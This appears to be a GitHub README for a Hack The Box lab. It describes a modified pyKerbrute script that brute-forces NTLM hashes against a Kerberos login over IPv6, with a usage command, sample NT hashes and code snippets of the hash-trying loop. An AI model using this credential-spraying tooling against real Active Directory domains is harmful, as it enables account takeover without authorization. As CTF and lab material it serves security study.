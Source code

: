 # NTLMhash bruteforce of kerberos login

I made modifications to ADPwdSpray.py (from [pyKerbrute](https://github.com/3gstudent/pyKerbrute)) for APT of HTB.

<br>

***I'm a beginner so there is still room for improvement.***

<br>

# usage

```
$ python brutehash.py dead:beef::b885:d62a:d679:573f htb.local henry.vinson ntlmhash hash.txt tcp
```

<br>

\*1 This scirt supports only ntlmhash mode and tcp mode of original ADPwdSpray.py

\*2 I used NThash list like following:

```
b300272f1cdab4469660d55fe59415cb
9ea25adafeec63e38cef4259d3b15c30
3ae49ec5e6fed82ceea0dc2be77750ab
```
# what I've modified

## ipv4 -> ipv6 (send_req_tcp)

```python
def send_req_tcp(req, kdc, port=88):
    data = encode(req)
    data = pack('>I', len(data)) + data
    # sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    # sock.connect((kdc, port))
    sock.connect((kdc, port, 0, 0))
    sock.send(data)
```

## last  part

```python
if __name__ == '__main__':
    kdc_a = sys.argv[1]
    user_realm = sys.argv[2].upper()
    user_name = sys.argv[3]

    file_object = open(sys.argv[5], 'r')

    for line in file_object:
        nthash = line.strip('\n')
        print(nthash)  # just show progress, you can remove this
        user_key = (RC4_HMAC, nthash.decode('hex'))
        passwordspray_tcp(user_realm, user_name, user_key, kdc_a, nthash)
```
## other

- I commentouted `from Crypto.Cipher import MD4, MD5` because of ImportError
- I deleted parts regarding UDP

# note

please use this brutehash.py in the same directory where `pyasn1` and `_crypto` are otherwise **PyAsn1Error** may happen.
